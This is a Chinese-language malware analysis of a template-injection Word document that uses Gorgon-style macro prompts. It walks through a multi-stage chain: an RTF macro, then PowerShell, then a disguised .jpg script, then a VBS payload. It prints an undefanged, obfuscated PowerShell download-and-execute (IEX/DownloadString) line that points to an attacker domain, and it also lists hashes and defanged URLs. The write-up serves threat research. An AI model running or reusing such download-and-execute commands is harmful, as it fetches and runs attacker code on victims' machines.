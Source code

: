 [![](https://p1.ssl.qhimg.com/t010b3dd3eb314efe8c.png)](https://p1.ssl.qhimg.com/t010b3dd3eb314efe8c.png)

### <a class="reference-link" name="%E5%9F%BA%E6%9C%AC%E4%BF%A1%E6%81%AF"></a>基本信息

原始样本为模板注入的doc文档，注入地址为：http[:]//bit[.]ly/2Fivk8q

[![](data:image/png;base64,iVBORw0KGgoAAAANSUhEUgAAAAEAAAABCAYAAAAfFcSJAAAAAXNSR0IArs4c6QAAAARnQU1BAACxjwv8YQUAAAAJcEhZcwAADsQAAA7EAZUrDhsAAAANSURBVBhXYzh8+PB/AAffA0nNPuCLAAAAAElFTkSuQmCC)](https://p2.ssl.qhimg.com/t01c186e6d04a7e7124.png)

文档内容如下：

[![](https://p3.ssl.qhimg.com/t0152e9b8e8db1cdd58.png)](https://p3.ssl.qhimg.com/t0152e9b8e8db1cdd58.png)

注入的文档md5为：7fe85327f57691535762dae17c50457e

[![](https://p5.ssl.qhimg.com/t013d76d5f06338effd.png)](https://p5.ssl.qhimg.com/t013d76d5f06338effd.png)

### <a class="reference-link" name="%E6%B3%A8%E5%85%A5%E6%96%87%E6%A1%A3%E5%88%86%E6%9E%90"></a>注入文档分析

注入的文档为宏代码攻击的rtf文件，文件打开会启用excel并不断弹框提示用于启用宏，如果用户点击禁用，则会弹出下一个excel宏提示，一共八次，该技术和之前Gorgon使用的注入技术保持一致。

[![](https://p3.ssl.qhimg.com/t014ee77066ecb1a6d8.png)](https://p3.ssl.qhimg.com/t014ee77066ecb1a6d8.png)

恶意宏代码执行后，会解密执行如下的powershell代码：

`"C:WindowsSystem32WindowsPowerShellv1.0powershell.exe" $T='*EX'.replace('*','I');sal M $T;'(&amp;(GCM'+' *W-O*)'+'Net.'+'Web'+'Cli'+'ent)'+'.Dow'+'nl'+'oad'+'Stri'+'ng(''http://empresariadohoteleiro.com/janeiro2020/Attack.jpg'')'|M|M`

该powershell代码用于从hxxp[:]//empresariadohoteleiro[.]com/janeiro2020/Attack[.]jpg<br>
下载后续payload到本地执行

### <a class="reference-link" name="Attack.jpg"></a>Attack.jpg

下载回来样本后缀为jpg，但实际上是一个powershell脚本，由于上面的powershell代码最后执行了IEX，所以这里后缀不会影响脚本的执行。

[![](https://p5.ssl.qhimg.com/t017c95dfb64dda3865.png)](https://p5.ssl.qhimg.com/t017c95dfb64dda3865.png)

通过代码可以得知，该段powershell代码通过IEX执行之后

会尝试下载http[:]//empresariadohoteleiro[.]com/janeiro2020/srvjaneiro03[.]jpg到本地保为%APPDATA%dimasjaneiro.vbs

下载成功则会通过start-process执行下载的vbs

下载的vbs样本MD5为：2c610594e3230b15af32874b1676861a

[![](https://p5.ssl.qhimg.com/t01c3a14f55c2f7d6da.png)](https://p5.ssl.qhimg.com/t01c3a14f55c2f7d6da.png)
